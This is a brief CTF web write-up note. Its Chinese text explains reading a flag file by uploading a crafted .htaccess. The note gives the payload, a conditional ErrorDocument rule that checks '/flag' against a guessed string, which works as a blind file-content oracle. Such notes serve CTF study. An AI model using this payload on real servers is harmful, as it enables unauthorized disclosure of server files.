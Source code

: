 tags:: [[CTFWEB/PHP/htaccess]]

- # WP
	-
	- 利用上传[`.htaccess`]([[CTFWEB/PHP/htaccess]])读flag文件
	- .htaccess的内容
		- ```
		  <If 'file("/flag") > "CONTENT"'>
		  ErrorDocument 404 "x_x"
		  </If>
		  ```
	-
